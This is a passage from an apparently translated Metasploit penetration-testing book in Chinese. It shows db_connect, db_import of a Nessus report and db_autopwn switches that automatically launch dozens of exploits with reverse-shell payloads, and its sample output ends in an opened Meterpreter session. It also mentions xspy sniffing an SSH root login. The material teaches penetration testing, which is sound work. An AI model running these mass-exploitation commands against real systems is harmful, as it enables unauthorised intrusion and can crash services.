*xspy* 工具远程嗅探 X 服务器的键盘会话，并捕获了一个用户使用 SSH 登录到远程系统以作为 root 用户。这样的漏洞可能很少见，但当你找到它们时，它们非常有价值。

## 使用扫描结果进行自动攻击

让我们快速了解一下利用。Metasploit 的 Autopwn 工具会自动针对并利用一个系统，使用开放的端口或使用漏洞扫描导出的结果。您可以使用 Autopwn 利用大多数漏洞扫描器的结果，包括 NeXpose、Nessus 和 OpenVAS。

例如，以下是我们可以如何使用 Nessus 结果导入来针对一个系统并自动攻击它的方法。使用 `db_connect` 创建一个新的数据库，并使用 `db_import` 导入扫描报告。在下一个示例中，我们使用一系列开关运行 `db_autopwn` 以对所有目标发起攻击（`e`），显示所有匹配的模块（`t`），使用反向 shell 有效载荷（`r`），根据漏洞选择利用模块（`x`），并基于开放端口选择（`p`）。一旦 `db_autopwn` 启动，Metasploit 就开始对目标发起攻击。成功的攻击将返回攻击机器的 shell。

```
msf > `db_connect postgres:toor@127.0.0.1/msf3`
  msf > `db_import /root/nessus.nbe`
  msf > `db_autopwn -e -t -r -x -p`

 [*] (`1/72`
 [0 sessions]): Launching exploit/windows/mssql/ms09_004_sp_replwritetovarbin
      against 192.168.33.130:1433...
  [*] (2/72 [0 sessions]): Launching exploit/windows/smb/
psexec against 192.168.33.130:445...
  [*] (3/72 [0 sessions]): Launching exploit/windows/smb/ms06_040_netapi against
      192.168.33.130:445...

  `. . . SNIP . . .`

  [*] Transmitting intermediate stager for over-sized stage...(216 bytes)
  [*] Sending stage (718336 bytes)
 [*] Meterpreter session `1 opened`
 (192.168.1.101:40912 -> 192.168.1.115:15991)
  [*] (72/72 [1 sessions]): Waiting on 2 launched modules to finish execution...
  [*] (72/72 [1 sessions]): Waiting on 0 launched modules to finish execution...
```

基于这些扫描，Autopwn 启动了 72 个利用，其中一个是成功的，如图所示 ![../images/00002.gif]。这个利用允许我们通过 Meterpreter 控制台完全访问机器，该控制台将在第六章中更深入地讨论。第六章。

* * *

### 注意

使用 Autopwn 时需要注意的一个大前提：如果你带着 Autopwn 的枪支猛烈开火，目标系统可能会崩溃或失去稳定性。Autopwn 有一些有用的功能在这里没有涵盖，例如选择只有“优秀”评分的利用，这意味着它们不太可能使远程系统或服务崩溃。有关其使用的更多信息，请输入 **`db_autopwn -h`**。

* * *
